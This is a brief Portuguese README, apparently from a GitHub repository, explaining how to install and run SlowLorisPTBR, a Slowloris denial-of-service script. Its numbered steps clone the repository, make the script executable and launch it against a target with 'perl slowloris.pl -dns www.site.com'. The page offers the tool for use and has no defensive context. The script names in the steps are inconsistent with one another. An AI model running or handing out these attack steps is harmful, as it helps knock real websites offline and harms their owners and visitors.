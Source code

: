 COMO USAR SLOWLORISPTBR
(Download slowlorisPTBR.pl)

1)Vá até o Terminal


2)Digite: git clone https://github.com/CanalPesadeloDoSistema/SlowLorisPTBR

3)Digite: ls 

4)Digite: cd SlowLorisPTBR

5)Digite: chmod a+x SlowLorisPTBR.perl

6) ./SlowlorisPTBR.pl

7) perl slowloris.pl -dns www.site.com -options


PARA FACILITAR SUA VIDA 
ASSISTA AO VÍDEO E INSTALE SEM ERROS :





Done
